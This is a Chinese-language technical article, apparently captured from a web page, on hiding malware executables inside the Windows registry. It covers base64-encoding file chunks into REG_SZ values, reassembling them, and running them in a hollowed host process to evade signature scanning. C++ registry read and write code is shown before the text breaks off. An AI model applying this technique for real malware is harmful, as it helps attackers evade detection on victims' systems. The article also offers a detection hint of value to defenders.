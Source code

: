 # 恶意软件隐身术：把可执行文件隐藏在注册表里

本文主要描述了一个并不多见的恶意软件编写技术：把可执行代码隐藏在windows注册表里。这个技术需要我们把可执行文件的一部分或者入口写进注册表里，然后加载并执行它。这种技术意在隐藏二进制文件潜在的恶意功能，取而代之的是分散在windows注册表里的键值，最终使得恶意二进制文件难以被检测。实际上，键值里的可执行代码被加载的时候，会进行随机次数的编码（重编码），使得特征码扫描更加困难。好的检测策略是监控进程加载数据过程，而不是扫描注册表。

0x00 存储文件到注册表
=====

第一步涉及到把文件导入注册表，文件将被分割多个小部分，并写入到注册表键值中。接下来文件将被提取、重组，最终在一傀儡进程里得以执行。有多个方法实现这一过程。注册表有多种不同的键值类型，足以存储多种格式的数据，包括物理二进制数据、32/64位数值、字符串。实际操作中，文件将被BASE64编码以字符串（`REG_SZ`）形式被存入注册表。

把数据导入到注册表中非常简单。首先通过`RegCreateKeyEx`打开键值句柄，`RegCreateKeyEx`的功能是打开一个存在的键值句柄或者创建一个键值句柄，然后通过`RegGetValue and RegSetValueEx`来进行读取和写入操作。具体操作参见以下代码：

```
const HKEY OpenRegistryKey(const char * const strKeyName, const bool bCreate = true)
{
HKEY hKey = nullptr;
DWORD dwResult = 0;

LONG lRet = RegCreateKeyExA(HKEY_CURRENT_USER, strKeyName, 0,
    nullptr, 0, KEY_READ | KEY_WRITE | KEY_CREATE_SUB_KEY,
    nullptr, &hKey, &dwResult);

if (lRet != ERROR_SUCCESS)
{
    fprintf(stderr, "Could not create/open registry key. Error = %X\n",
        lRet);
    exit(-1);
}

if (bCreate && dwResult == REG_CREATED_NEW_KEY)
{
    fprintf(stdout, "Created new registry key.\n");
}
else
{
    fprintf(stdout, "Opened existing registry key.\n");
}

return hKey;
}

void WriteRegistryKeyString(const HKEY hKey, const char * const strValueName,
const BYTE *pBytes, const DWORD dwSize)
{
std::string strEncodedData = base64_encode(pBytes, dwSize);

LONG lRet = RegSetValueExA(hKey, strValueName, 0, REG_SZ, (const BYTE *)strEncodedData.c_str(), strEncodedData.length());
if (lRet != ERROR_SUCCESS)
{
    fprintf(stderr, "Could not write registry value. Error = %X\n",
        lRet);
    exit(-1);
}
}
const std::array<BYTE, READ_WRITE_SIZE> ReadRegistryKeyString(const char * const strKeyName,
const char * const strValueName, bool &bErrorOccured)
{
DWORD dwType = 0;
const DWORD dwMaxReadSize = READ_WRITE_SIZE * 2;
DWORD dwReadSize = dwMaxReadSize;
```